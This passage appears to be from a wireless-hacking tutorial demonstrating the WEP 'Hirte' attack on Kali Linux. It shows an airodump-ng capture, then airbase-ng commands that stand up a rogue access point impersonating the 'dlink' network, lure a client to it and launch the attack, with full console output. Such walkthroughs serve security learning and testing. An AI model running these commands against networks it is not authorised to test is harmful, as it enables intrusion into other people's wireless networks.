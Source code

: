 Run ```Airodump-ng```

```sh
root@kali:~# airodump-ng --channel 4 wlan0mon --essid dlink --write Hirte

 CH  4 ][ Elapsed: 4 mins ][ 2017-06-07 03:04 ][ Broken SKA: 00:C0:CA:92:3C:89

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 00:C0:CA:92:3C:89    0   0     5573    20474  133   4  54   WEP  WEP    SKA  dlink
 84:C9:B2:6D:0C:85  -37  67     1677      295    3   4  11e. WEP  WEP         dlink

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 00:C0:CA:92:3C:89  BC:9F:EF:69:35:19  -33    1 -36      0   168929  dlink,HiddenSSID
 (not associated)   06:FF:7B:94:41:2F  -49    0 - 1      0        4
 (not associated)   2A:D8:0B:8E:D3:A5  -49    0 - 1      0        1
 (not associated)   DA:A1:19:1C:D0:82  -52    0 - 1      0        1
 (not associated)   3C:BB:FD:98:55:54  -59    0 - 1      0        8
 (not associated)   F4:F5:D8:2F:99:D0  -62    0 - 1      0       29  Lowspeed
 (not associated)   F8:16:54:BD:7A:7C  -65    0 - 1      0        2  Orange
 (not associated)   F4:F5:D8:49:3D:C4  -66    0 - 1      0        1  Phanisri
 (not associated)   5C:51:88:9E:3C:95  -67    0 - 1      0        2
 (not associated)   A4:70:D6:99:25:FC  -68    0 - 1      0        6
 (not associated)   BE:F5:50:72:66:C9  -50    0 - 1      0        1
 (not associated)   02:3D:31:EB:17:0A  -51    0 - 1      0        4
 (not associated)   E2:07:A6:63:5F:8A  -52    0 - 1      0        2
 (not associated)   64:80:99:D7:8E:03  -67    0 - 1      0        3  Kaiser,ATT016
 (not associated)   80:D2:1D:15:A2:B9  -60    0 - 1      0        9  NETGEAR36
 (not associated)   B0:70:2D:2E:E7:21  -57    0 - 1      0        9  xfinitywifi
 (not associated)   E8:50:8B:4D:0A:4B  -63    0 - 1      0        2

root@kali:~#
```

Create a soft AP and make sure the client connects to it

```sh
root@kali:~# airbase-ng --channel 4 --essid dlink -W 1 wlan0mon -N
For information, no action required: Using gettimeofday() instead of /dev/rtc
03:00:00  Created tap interface at1
03:00:00  Trying to set MTU on at1 to 1500
03:00:00  Access Point with BSSID 00:C0:CA:92:3C:89 started.
03:00:03  Broken SKA: BC:9F:EF:69:35:19 (expected: 164, got 151 bytes)
03:00:03  SKA from BC:9F:EF:69:35:19
03:00:04  Broken SKA: BC:9F:EF:69:35:19 (expected: 164, got 151 bytes)
03:00:04  Broken SKA: BC:9F:EF:69:35:19 (expected: 164, got 151 bytes)
03:00:04  Broken SKA: BC:9F:EF:69:35:19 (expected: 164, got 151 bytes)
03:00:04  SKA from BC:9F:EF:69:35:19
03:00:04  Client BC:9F:EF:69:35:19 associated (WEP) to ESSID: "dlink"
03:00:04  Broken SKA: BC:9F:EF:69:35:19 (expected: 164, got 151 bytes)
03:00:04  Broken SKA: BC:9F:EF:69:35:19 (expected: 164, got 151 bytes)
03:00:04  Broken SKA: BC:9F:EF:69:35:19 (expected: 164, got 151 bytes)
03:00:04  SKA from BC:9F:EF:69:35:19
03:00:05  Client BC:9F:EF:69:35:19 associated (WEP) to ESSID: "dlink"
03:00:05  Starting Hirte attack against BC:9F:EF:69:35:19 at 100 pps.
03:00:30  Starting Hirte attack against BC:9F:EF:69:35:19 at 100 pps.
03:01:58  Starting Hirte attack against BC:9F:EF:69:35:19 at 100 pps.
03:03:15  Starting Hirte attack against BC:9F:EF:69:35:19 at 100 pps.
03:04:30  Starting Hirte attack against BC:9F:EF:69:35:19 at 100 pps.
root@kali:~#
```

